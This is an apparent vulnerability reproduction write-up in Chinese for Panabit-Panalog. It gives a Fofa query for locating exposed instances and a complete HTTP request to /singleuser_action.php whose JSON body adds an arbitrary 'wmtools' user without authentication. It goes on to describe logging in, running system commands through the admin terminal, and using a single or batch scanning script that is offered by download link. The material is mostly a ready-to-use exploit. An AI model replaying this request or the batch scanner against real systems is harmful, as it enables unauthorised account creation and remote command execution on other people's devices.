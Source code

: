 # K8-1Panabit-Panalog任意用户注册

<u></u>





### 漏洞描述：Panabit-Panalog任意用户添加



### Fofa语句：app="Panabit-Panalog"



### 漏洞复现：

```
GET /singleuser_action.php HTTP/1.1

Host: xxx

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Upgrade-Insecure-Requests: 1

Sec-Fetch-Dest: document

Sec-Fetch-Mode: navigate

Sec-Fetch-Site: none

Sec-Fetch-User: ?1

Te: trailers

Connection: close

Content-Length: 574



{ "syncInfo": { "user": { "userId": "wmtools", "userName": "wmtools", "employeeId": "wmtools", "departmentId": "wmtools", "departmentName": "wmtools", "coporationId": "wmtools", "corporationName": "wmtools", "userSex": "1", "userDuty": "wmtools", "userBirthday": "wmtools", "userPost": "wmtools", "userPostCode": "wmtools", "userAlias": "wmtools", "userRank": "wmtools", "userPhone": "wmtools", "userHomeAddress": "wmtools", "userMobilePhone": "wmtools", "userMailAddress": "wmtools", "userMSN": "wmtools", "userNt": "wmtools", "userCA": "wmtools", "userPwd": "wmtools", "userClass": "wmtools", "parentId": "wmtools", "bxlx": "wmtools" },"operationType": "ADD_USER" } }
```



查看响应包。返回注册成功信息



登录成功，进入页面



二、命令执行

系统维护--->终端命令--->命令执行whoami
 三、漏洞检测
 单个检测

python .\PanalogAddUser.py -u https://ip:port

 

批量检测
 python .\PanalogAddUser.py -f filename

 检测脚本链接：https://pan.baidu.com/s/1cCNB7PP8MSLxzF349cKdDg?pwd=hglx

提取码：hglx
